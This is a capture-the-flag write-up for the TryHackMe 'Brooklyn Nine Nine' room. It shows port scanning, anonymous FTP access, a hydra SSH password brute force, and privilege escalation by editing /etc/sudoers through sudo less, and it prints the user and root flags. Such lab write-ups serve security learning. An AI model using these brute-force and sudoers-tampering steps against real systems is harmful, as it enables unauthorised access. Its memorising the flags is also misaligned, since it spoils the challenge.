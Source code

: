 ## Index

1. [Setup](#setup)
2. [Reconnaissance](#reconnaissance)
3. [Exploitation](#exploitation)
5. [Conclusion](#conclusion)

## Setup 

We first need to connect to the tryhackme VPN server. You can get more information regarding this by visiting the [Access](https://tryhackme.com/access) page.

I'll be using `openvpn` to connect to the server. Here's the command:

```
$ sudo openvpn --config NovusEdge.ovpn
```

## Reconnaissance

Some quick port scans show us the following stuff:
```shell-session
$ rustscan -b 4500 -a TARGET_IP -r 1-65535 --ulimit 5000 -t 2000 -- -oN rustscan_port_scan.txt
PORT   STATE SERVICE REASON
21/tcp open  ftp     syn-ack
22/tcp open  ssh     syn-ack
80/tcp open  http    syn-ack

$ rustscan -b 4500 -a TARGET_IP -p21,22,80 --ulimit 5000 -t 2000 -- -sV -oN rustscan_service_scan.txt
PORT   STATE SERVICE REASON  VERSION
21/tcp open  ftp     syn-ack vsftpd 3.0.3
22/tcp open  ssh     syn-ack OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    syn-ack Apache httpd 2.4.29 ((Ubuntu))
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

Logging into the `ftp` service using an anonymous login, we can get a file: `note_to_jake.txt` which contains the following content:
```txt
From Amy,

Jake please change your password. It is too weak and holt will be mad if someone hacks into the nine nine
```

Upon inspecting the `http` web page from port 80 using a browser, we see a comment: ` Have you ever heard of steganography? ` Which probably means that the image on the web page has some information we can use. But there's nothing interesting found when we inspect it using `exiftool`, `binwalk` and `strings`. Let's try to brute force the `ssh` service on port 22 for the user `jake` (since we know that their password is weak):
```shell-session
$ hydra -v -l jake -P /usr/share/seclists/Passwords/rockyou.txt TARGET_IP ssh 
...
[22][ssh] host: TARGET_IP   login: jake   password: 987654321
```

Bingo! Now we have initial access... we can log into the ssh service using these credentials and then work on privesc:

## Exploitation

Let's log into the ssh service and then see what we can find:
```shell-session
$ ssh jake@TARGET_IP 
jake@TARGET_IP's password: 987654321

jake@brookly_nine_nine:~$ cd /home
jake@brookly_nine_nine:/home$ ls
amy  holt  jake

jake@brookly_nine_nine:/home$ ls amy
jake@brookly_nine_nine:/home$ ls holt
nano.save  user.txt

jake@brookly_nine_nine:/home$ cd holt
jake@brookly_nine_nine:/home/holt$ ls
nano.save  user.txt

jake@brookly_nine_nine:/home/holt$ cat user.txt 
ee11cbb19052e40b07aac0ca060c23ee

```


> User flag
> 
> Answer: `ee11cbb19052e40b07aac0ca060c23ee`

Now, onto privilege escalation:
```shell-session
## System/OS Info:
jake@brookly_nine_nine:/home/holt$ uname -a
Linux brookly_nine_nine 4.15.0-101-generic #102-Ubuntu SMP Mon May 11 10:07:26 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux

jake@brookly_nine_nine:/home/holt$ cat /etc/issue
Ubuntu 18.04.4 LTS \n \l


## See what binaries are SUID
jake@brookly_nine_nine:~$ find / -perm /u=s,g=s 2>/dev/null
/sbin/pam_extrausers_chkpwd
/sbin/unix_chkpwd
...
/usr/bin/newgidmap
/usr/bin/newgrp
/usr/bin/expiry
/usr/bin/chage
/usr/bin/ssh-agent
/usr/bin/pkexec
/usr/bin/newuidmap
/usr/bin/bsd-write
/usr/bin/crontab
/usr/bin/chfn
/usr/bin/sudo
/usr/bin/wall
/usr/bin/chsh
/usr/bin/at
/usr/bin/traceroute6.iputils
/usr/bin/gpasswd
/usr/bin/mlocate
/usr/bin/passwd
...
/bin/mount
/bin/su
/bin/ping
/bin/fusermount
/bin/less
/bin/umount
/var/mail
/var/local
/var/log/journal
/var/log/journal/a964c6c103ca4788b34450603b8a2ccd


## See what sudo permissions jake has:
jake@brookly_nine_nine:~$ sudo -l
Matching Defaults entries for jake on brookly_nine_nine:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User jake may run the following commands on brookly_nine_nine:
    (ALL) NOPASSWD: /usr/bin/less
```

Nice! We can run `less` as root and get the root flag by doing: `sudo less /root/root.txt`, but that'd be a bit too easy... Let's get jake some root privileges!
```shell-session
jake@brookly_nine_nine:~$ sudo less /etc/sudoers
!nano /etc/sudoers
# Now change jake's permissions:
[-] jake    ALL=(ALL) NOPASSWD: /usr/bin/less
[+] jake    ALL=(ALL) NOPASSWD:ALL

jake@brookly_nine_nine:~# sudo bash

root@brookly_nine_nine:~# cd /root
root@brookly_nine_nine:/root# ls
root.txt
root@brookly_nine_nine:/root# cat root.txt 
-- Creator : Fsociety2006 --
Congratulations in rooting Brooklyn Nine Nine
Here is the flag: 63a9f0ea7bb98050796b649e85481845

Enjoy!!
```

Done!
 > Root flag
 > 
 > Answer: `63a9f0ea7bb98050796b649e85481845`


## Conclusion
If this writeup helps, please consider following me on github (https://github.com/NovusEdge) and/or dropping a star on the repository: https://github.com/NovusEdge/thm-writeups

---

- Author: Aliasgar Khimani
- Room: [Brooklyn Nine Nine by Fsociety2006](https://tryhackme.com/room/brooklynninenine)
